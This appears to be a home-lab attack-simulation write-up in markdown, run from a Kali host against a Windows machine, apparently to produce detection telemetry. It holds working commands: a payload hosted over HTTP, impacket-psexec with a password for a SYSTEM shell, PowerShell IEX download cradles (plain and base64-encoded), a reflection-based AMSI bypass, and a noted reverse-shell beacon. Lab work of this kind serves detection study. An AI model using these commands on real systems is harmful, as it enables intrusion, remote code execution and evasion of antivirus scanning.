





# 02 — Attack Simulation (Kali, 192.168.100.106 / BUTCH)

## Step 1 — Host the payload

```bash
mkdir ~/www && cd ~/www
# payload.ps1 = beacon check-in (whoami; hostname; Get-Date)
python3 -m http.server 80        # leave running
```
Server log later shows: `192.168.100.108 - - [28/Oct/2026 07:50:56] "GET /payload.ps1 HTTP/1.1" 200`.

<p align="center">
  
</p>

## Step 2 — Gain SYSTEM shell (post-execution foothold)

```bash
impacket-psexec adminlab:'P@ssw0rd'@192.168.100.108
# lands at C:\Windows\system32> cmd shell as NT AUTHORITY\SYSTEM
```

<p align="center">
  
</p>

## Step 3 — IEX download cradle (classic)

```cmd
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.106/payload.ps1')"
```
Result: payload executes → `[+] beacon check-in OK` + whoami/hostname. (Minor cmd quote parse error after — quoting artifact; payload still ran.)

<p align="center">
  
</p>

## Step 4 — Encoded command (obfuscation, T1027)

```cmd
powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMAAwAC4A
```
(Same IEX cradle, base64-encoded — defeats simple string matching. Output: CLIXML serialized stream.)

<p align="center">
  
</p>

## Step 5 — AMSI bypass (T1562.001) + re-download

```cmd
powershell.exe -nop -c "[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true); IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.106/payload.ps1')"
```
Result: reflection-based AMSI bypass executed; the subsequent download failed in this run (HTTP server stopped between rounds — lab artifact) with "Unable to connect to the remote server". The bypass attempt was still captured in telemetry.

<p align="center">
   
</p>

## Step 6 (observed in telemetry) — reverse-shell beacon

A separate dropped binary `C:\Users\bryll\Downloads\free.exe` connected back to `192.168.100.106:4444` (TCP) — captured by Sysmon Event ID 3 (tagged T1571 Non-Standard Port).
